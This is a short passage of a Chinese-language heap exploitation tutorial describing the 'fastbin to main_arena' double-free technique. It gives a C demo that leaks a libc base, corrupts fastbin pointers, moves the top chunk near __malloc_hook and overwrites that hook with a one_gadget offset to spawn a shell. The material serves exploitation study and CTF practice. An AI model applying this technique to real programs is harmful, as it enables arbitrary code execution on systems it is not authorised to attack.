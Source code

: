 ```python

```

***

&emsp;&emsp;<font size=2>在这里额外介绍一个新的利用double free改写任意地址的技巧：fastbin to main_arena。就是把fastbin分配到main_arena上去，然后就可以修改main_arena上的数据达到我们的目的，比如说我们可以修改top堆块到任何位置（只要满足size检查），然后相当于就可以在任何地方分配堆块，进而可以修改任何地址的数据，不多说，demo放在下面，原理上面都已经分析过了：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
	void *p1,*p2,*p3;
	unsigned long* ptr;

	p1=malloc(0x100);
	p2=malloc(0x100);
	free(p1);
	unsigned long libc_base=*(unsigned long*)p1-0x3c4b78;
	free(p2);
	//fprintf(stderr,"libc base:%llx\n",libc_base);

	p1=malloc(0x50);
	p2=malloc(0x50);

	p3=malloc(0x30);
	free(p3);
	ptr=(unsigned long*)p3;

  // edit fastbin fd
	*ptr=0x60;
  // 0x60 in fastbinY
	malloc(0x30);

	free(p1);
	free(p2);
	free(p1);

	malloc(0x50);
	ptr=(unsigned long*)p1;
  // edit fd to fastbinY where lays 0x60 we put on
	*ptr=libc_base+0x3c4b30;
	malloc(0x50);
	malloc(0x50);

	//chunk in the main_arena
	p1=malloc(0x50);

	// edit the top chunk
	ptr=(unsigned long*)p1;
	*(ptr+7)=libc_base+0x3c4b00;

	// chunk on the __malloc_hook
	p2=malloc(0x100);

	//edit the __malloc_hook with one_gadget
	ptr=(unsigned long*)p2;
	*ptr=libc_base+0x4526A;

	// getshell
	malloc(0x100);
```